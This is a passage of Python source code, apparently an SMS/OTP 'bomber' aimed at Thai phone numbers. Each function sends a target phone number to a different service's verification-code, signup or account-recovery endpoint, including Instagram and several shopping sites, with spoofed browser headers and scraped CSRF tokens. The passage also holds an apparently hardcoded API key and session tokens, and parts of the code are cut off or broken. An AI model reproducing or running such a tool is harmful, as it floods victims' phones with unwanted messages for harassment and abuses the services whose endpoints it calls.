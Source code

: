              "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"}).json()

    def sk41(phone):

        post('https://api2.1112.com/api/v1/otp/create',

             data={'phonenumber': phone, 'language': "th"})

    def sk42(phone):

        post('https://youla.ru/web-api/auth/request_code',

             data={'phone': phone})

    def sk43():

        post("https://www.instagram.com/",

             headers=header).headers['set-cookie']

        d = search("csrftoken=(.*);", d).group(1).split(";")

        return d[0], d[10].replace(" Secure, ig_did=", "")

    def sk44(phone):

        token, _ = useragent()

        post("https://www.instagram.com/accounts/account_recovery_send_ajax/", data=f"email_or_username=66{phone}&recaptcha_challenge_field=", headers={

             "Content-Type": "application/x-www-form-urlencoded", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36", "X-CSRFToken": token}).json()

    def sk45(phone):

        token, cid = useragent()

        post("https://www.instagram.com/accounts/send_signup_sms_code_ajax/", data=f"client_id={cid}&phone_number=66{phone}&phone_id=&big_blue_token=", headers={

             "Content-Type": "application/x-www-form-urlencoded", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36", "X-CSRFToken": token}).json()

    def sk46(phone):

        post('https://rapidapi.com/blaazetech/api/spam-caller-check/',

             json={"phonenumber": phone, "language": "th"}, headers=header).status_code

    def sk47(phone):

        post('https://twitter-user-profile-data.p.rapidapi.com/v1/api/twitter', headers={

             'content-type': "application/json", 'x-rapidapi-host': "twitter-user-profile-data.p.rapidapi.com", 'x-rapidapi-key': "775b9796aemshb6a4eefc8d0e33cp1d04d7jsnefd368e22b03"})

    def api1(phone):

        post("https://m.thisshop.com/cos/send/code/notice", json={"sessionContext": {"channel": "h5", "entityCode": 0, "userReferenceNumber": "12w12y11r52gz259ue14rr7g7370239m", "localDateTimeText": "20220115182850", "riskMessage": "{}", "serviceCode": "FLEX0001", "superUserId": "sysadmin", "tokenKey": "149d5c7bae10304c8aba0da2bbc59cb7", "authorizationReason": "",

